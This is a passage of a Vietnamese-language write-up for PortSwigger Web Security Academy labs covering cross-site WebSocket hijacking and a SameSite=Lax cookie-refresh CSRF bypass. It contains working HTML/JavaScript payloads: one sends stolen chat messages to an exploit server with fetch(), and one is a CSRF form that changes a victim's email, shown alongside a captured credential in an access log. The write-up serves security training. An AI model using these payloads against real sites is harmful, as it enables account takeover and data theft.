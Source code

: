 - Khi decode ra nó như này:
```html
    <script>
        document.location = "https://cms-0afd001a038e866c80d053ab00fd0074.web-security-academy.net/login?username=<script>var ws = new WebSocket('wss://0afd001a038e866c80d053ab00fd0074.web-security-academy.net/chat');ws.onopen = function() {ws.send("READY");};ws.onmessage = function(event) {fetch("https://exploit-0a59006c039186ad80ca52df012c00a5.exploit-server.net/exploit" + event.data);};</script>&password=abc";
    </script>
```

- Dán vào body của **Exploit Server** > Deliver to victiom
- Truy cập **access log**, copy data thu được và decode bằng smart decode của **Burp Decoder**
- Sử dụng thông tin đăng nhập có được từ **chat history** để đăng nhập
```
10.0.3.134      2025-06-06 03:47:06 +0000 "GET /exploit{"user":"Hal Pline","content":"No problem carlos, it's re7x1159ugzypdjnrfzt"} HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

### SameSite Lax bypass via cookie refresh
#### Analysis
- Chức năng đổi **email (/my-account/change-email)** dùng phương thức **POST**
- Không có **CSRF token** bảo vệ
- Cookie được set mà không có SameSite nên **Chrome** mặc định sẽ sử dụng `SameSite=Lax`
- Để đảm bảo trải nghiệm người dùng và không làm hỏng các hệ thống **SSO (Single Sign-On)** thì trong 120s đầu tiên, **Chrome** tạm thời nới lỏng hạn chế của `SameSite=Lax` tức `SameSite=Lax` chưa bị **enforce**
=> Lợi dụng điều này để cấp phát lại cookie, tận dụng 120s đó để thực hiện tấn công **CSRF change email** theo method **POST**

#### Exploit
- Tạo mã khai thác và thêm vào phần body của **Exploit Server** 
```html
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="evil@gmail.com">
    </form>
    <script>
        window.onclick = () => {
            window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
            setTimeout(changeEmail, 5000);
        }

        function changeEmail() {
            document.forms[0].submit();
        }
    </script>
```

- Deliver to victim
- Dựa vào sự kiện onclick để mở popup, bởi vì các trình duyệt hiện đại chặn tự động mở popup, nếu có sự tương tác của người dùng thì nó là hợp lệ
- `setTimeout(changeEmail, 5000);` để đảm bảo **cookie** được cấp phát mới
- Khi open `/social-login`, **cookie** được cấp phát m
ới nhưng không thoát phiên đăng nhập
- Sau 5s gửi **POST** để thực hiện việc thay đổi email
